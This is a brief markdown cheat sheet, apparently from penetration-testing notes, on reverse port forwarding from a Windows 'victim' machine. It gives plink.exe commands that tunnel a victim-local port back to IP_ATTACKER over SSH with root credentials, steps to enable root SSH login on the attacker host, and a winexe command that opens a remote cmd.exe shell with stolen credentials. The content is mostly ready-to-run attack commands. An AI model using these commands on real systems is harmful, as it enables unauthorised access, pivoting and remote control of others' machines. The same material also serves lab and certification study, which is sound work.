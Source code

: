# Port Forwarding

* Download plink.exe -> https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
* Transfer plink to the victim machine
* apt install ssh -> On linux
* Edit /etc/ssh/sshd_config, change #PermiRootLogin prohibit-password to PermiRootLogin yes
* ssh service restart
* ssh service start
[+] On the windows victim machine
* plink.exe -l root -pw YOUR_ROOT_PASSWORD -R PORT:127.0.0.1:PORT IP_ATTACKER
If you have troubles uncomment the Port 22 and change for Port 8888 on file /etc/ssh/sshd_config
* plink.exe -l root -pw YOUR_ROOT_PASSWORD -P 8888 -R PORT:127.0.0.1:PORT IP_ATTACKER
* y

* netstat -ano (You could try also on your own machine)
[!] TRY TO USE THE ENTER KEY A COUPLE OF TIMES IN CASE YOU DON'T SEE NOTHING

* winexe -U user%pass //IP "cmd.exe"
